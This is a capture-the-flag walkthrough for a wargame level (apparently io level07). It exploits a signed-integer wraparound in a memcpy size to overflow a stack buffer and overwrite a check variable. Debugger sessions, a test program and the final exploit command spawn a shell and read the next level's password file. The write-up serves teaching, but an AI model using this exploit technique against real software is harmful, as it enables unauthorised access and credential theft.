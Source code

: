 The source code for this level is in level07.c

We see that the `count` variable needs to be set to 0x574f4c46 in order for us to win. But there's a check at the beginning that prevents us from just simply passing in a positive number. We need to make the size parameter for memcpy into something that will overflow the `buf[10]` buffer and overwrite the count variable. Let's see how far apart they are in memory.
```
evel7@io:/levels$ gdb -q level07
Reading symbols from /levels/level07...done.
(gdb) set disassembly-flavor intel
(gdb) display/10i $eip
(gdb) break main
Breakpoint 1 at 0x804841a
(gdb) run 1 AAAAA
Starting program: /levels/level07 1 AAAAA

Breakpoint 1, 0x0804841a in main ()
1: x/10i $eip
=> 0x804841a <main+6>:   and    esp,0xfffffff0
   0x804841d <main+9>:   mov    eax,0x0
   0x8048422 <main+14>:  sub    esp,eax
   0x8048424 <main+16>:  mov    eax,DWORD PTR [ebp+0xc]
   0x8048427 <main+19>:  add    eax,0x4
   0x804842a <main+22>:  mov    eax,DWORD PTR [eax]
   0x804842c <main+24>:  mov    DWORD PTR [esp],eax
   0x804842f <main+27>:  call   0x8048354 <atoi@plt>
   0x8048434 <main+32>:  mov    DWORD PTR [ebp-0xc],eax
   0x8048437 <main+35>:  cmp    DWORD PTR [ebp-0xc],0x9

...

(gdb) ni
0x08048462 in main ()
1: x/10i $eip
=> 0x8048462 <main+78>:  call   0x8048334 <memcpy@plt>
   0x8048467 <main+83>:  cmp    DWORD PTR [ebp-0xc],0x574f4c46
   0x804846e <main+90>:  jne    0x804849a <main+134>
   0x8048470 <main+92>:  mov    DWORD PTR [esp],0x8048584
   0x8048477 <main+99>:  call   0x8048344 <printf@plt>
   0x804847c <main+104>: mov    DWORD PTR [esp+0x8],0x0
   0x8048484 <main+112>: mov    DWORD PTR [esp+0x4],0x804858a
   0x804848c <main+120>: mov    DWORD PTR [esp],0x804858d
   0x8048493 <main+127>: call   0x8048324 <execl@plt>
   0x8048498 <main+132>: jmp    0x80484a6 <main+146>
(gdb) x/3xw $esp
0xbffffc30:  0xbffffc50  0xbffffe80  0x00000004
(gdb) x/xw $ebp-0xc
0xbffffc8c:  0x00000001
```

After looking at the disassembly, we can see that the count variable is at `[ebp-0xc]` and right before we call memcpy, the arguments for destination, source, and size are on the stack in that order. So the buffer `buf[10]` starts at 0xbffffc50 and count is at 0xbffffc8c.
```
(gdb) p 0xbffffc8c - 0xbffffc50
$1 = 60
```

So they're 60 bytes apart. We need to write 60 bytes up until `count` and then the next four bytes will overwrite it and we'll win. But we don't know how to accomplish this yet. This basic program will help us understand how we can make this happen. We need to know what the value of `count` is going to be when it's passed into memcpy and this will help us figure it out.
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv) {
    int count = atoi(argv[1]);

    printf("%i\n", count*sizeof(int));
    printf("%x\n", count*sizeof(int));

    return 0;
}

...

level7@io:/tmp/ZZZ$ gcc -o test test.c
level7@io:/tmp/ZZZ$ ./test -1 AAAA
-4
fffffffc
```

Since -4 is below 10, we can pass the first check `count >= 10`. It'll set the size argument for memcpy to be 0xfffffffc, and considering that that argument is treated as an unsigned int, that means that we're going to write WAY too much data. We need a smaller number. Let's try to cause an overflow by passing in a huge negative number and seeing the result is.
```
level7@io:/tmp/ZZZ$ ./test -2147483648 AAAAA
0
0
level7@io:/tmp/ZZZ$ ./test -2147483647 AAAAA
4
4
level7@io:/tmp/ZZZ$ ./test -2147483646 AAAAA
8
8
level7@io:/tmp/ZZZ$ ./test -2147483640 AAAAA
32
20
level7@io:/tmp/ZZZ$ ./test -2147483630 AAAAA
72
48
level7@io:/tmp/ZZZ$ ./test -2147483632 AAAAA
64
40
```

So we see that really large negative numbers wrap back around and give us positive numbers. This will help us satisfy the original check against the `count` variable and allow us to write a controlled amount of data*. So remember we need 64 bytes where the first 60 are junk and the last 4 are "\x46\x4c\x4f\x57".
```
level7@io:/levels$ ./level07 -2147483632 $(python -c 'print "A"*60 + "\x46\x4c\x4f\x57"')
WIN!
sh-4.2$ whoami
level8
sh-4.2$ cat /home/level8/.pass
[Password for level8]
```

(*)If you're wondering why -2147483648 gives us 0 when you run that test program, go back to the walkthrough forlevel 2 and see if you can figure it out

